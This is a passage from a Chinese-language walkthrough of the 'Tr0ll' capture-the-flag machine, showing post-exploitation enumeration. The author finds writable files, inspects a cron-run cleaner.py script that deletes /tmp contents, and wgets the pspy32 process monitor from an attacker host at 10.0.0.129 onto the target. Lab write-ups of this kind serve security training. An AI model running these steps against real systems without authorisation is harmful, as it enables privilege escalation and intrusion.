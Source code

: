 ```bash
overflow@troll:/$ find / -type f -writable 2>/dev/null | grep -ivE "/proc|/sys"
/srv/ftp/lol.pcap
/var/tmp/cleaner.py.swp
/var/www/html/sup3rs3cr3tdirlol/roflmao
/var/log/cronlog
/lib/log/cleaner.py
```

查看cleaner.py的文件内容。

```bash
overflow@troll:/dev/shm$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

### pspy

使用pspy前首先查看目标的系统架构。

```bash
overflow@troll:/dev/shm$ uname -a
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 athlon i686 GNU/Linux
```

使用wget传输并执行pspy32。

```bash
overflow@troll:/dev/shm$ wget http://10.0.0.129/pspy32
--2025-08-25 01:01:29--  http://10.0.0.129/pspy32
Connecting to 10.0.0.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2940928 (2.8M) [application/octet-stream]
Saving to: ‘pspy32’

100%[================================================================================================================================================================================>] 2,940,928   --.-K/s   in 0.1s    

2025-08-25 01:01:29 (24.6 MB/s) - ‘pspy32’ saved [2940928/2940928]

overflow@troll:/dev/shm$ ls -al
total 2872
drwxrwxrwt  2 root     root          60 Aug 25 01:01 .
drwxr-xr-x 20 root     root         620 Aug 25 01:00 ..
-rw-rw-r--  1 overflow overflow 2940928 Aug 21 07:52 pspy32
```

![image-20250825162811625](./Tr0ll.assets/image-20250825162811625.png)
